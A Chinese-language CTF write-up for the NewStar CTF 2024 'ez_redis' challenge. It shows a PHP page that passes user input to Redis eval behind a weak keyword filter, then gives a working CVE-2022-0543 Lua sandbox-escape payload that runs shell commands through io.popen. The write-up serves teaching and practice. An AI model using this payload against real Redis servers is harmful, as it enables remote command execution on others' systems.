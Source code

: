 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


# ez_redis

考了个 Redis 命令执⾏以及其历史漏洞

![redis 语法示例](/assets/images/wp/2024/week5/ez_redis_1.png)

在这里其实给出了示例，结合题目不难发现就是个 Redis 语法

如果你有信息收集意识的话还会发现有源码泄露，访问 `/www.zip` 即可

关键点在：

```php
<?php
if(isset($_POST['eval'])){
    $cmd = $_POST['eval'];
    if(preg_match("/set|php/i", $cmd))
    {
        $cmd = 'return "u are not newstar";';
    }

    $example = new Redis();
    $example->connect($REDIS_HOST);
    $result = json_encode($example->eval($cmd));

    echo '<h1 class="subtitle">结果</h1>';
    echo "<pre>$result</pre>";
}
?>
```

搜索 Redis 常⽤利⽤⽅法，发现如果过滤了 `set` `php`，那么我们很难通过写 webshell，写⼊计划任务、主从复制来进行 getshell

于是我们搜索⼀下 Redis 5 的历史漏洞

发现 CVE-2022-0543 值得⼀试: [Redis Lua 沙盒绕过命令执行（CVE-2022-0543）](https://github.com/vulhub/vulhub/blob/master/redis/CVE-2022-0543/README.zh-cn.md)

于是我们得到了⼀个 payload:

```lua
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

由于我们⽹站执⾏的是 redis 命令

于是去掉外⾯的 eval 即可

```lua
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res
```

![获取到 flag](/assets/images/wp/2024/week5/ez_redis_2.png)
